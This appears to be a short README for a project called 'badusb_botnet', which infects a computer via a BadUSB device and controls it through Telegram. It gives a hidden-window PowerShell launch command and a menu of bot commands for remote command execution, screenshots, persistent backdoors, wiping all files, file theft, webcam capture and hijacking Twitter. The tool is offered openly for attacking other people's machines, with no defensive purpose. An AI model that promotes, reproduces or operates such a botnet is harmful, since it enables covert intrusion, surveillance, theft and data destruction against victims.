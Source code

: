 # badusb_botnet
:smiling_imp::busts_in_silhouette: Infect a pc with badusb and establish a connection through telegram.

```
> powershell.exe -windowstyle hidden -file poc.ps1
```
#### Telegram Options

- /select ```IP``` ```command``` (Execute a command in a PC)
- /stop ```IP``` (Stop remote connection with a PC)
- /list (List all devices availables)
- /screenshot ```IP``` (Capture screen of a PC)
- /backdoor ```IP``` (Creates a persistent backdoor in a PC)
- /cleanAll ```IP``` (Clean all files in a PC)
- /ipPublic ```IP``` (Geolocate IP)
- /download ```IP``` ```file``` (Download a file from a PC)
- /hackTwitter ```IP``` 
- /webcam ```IP```
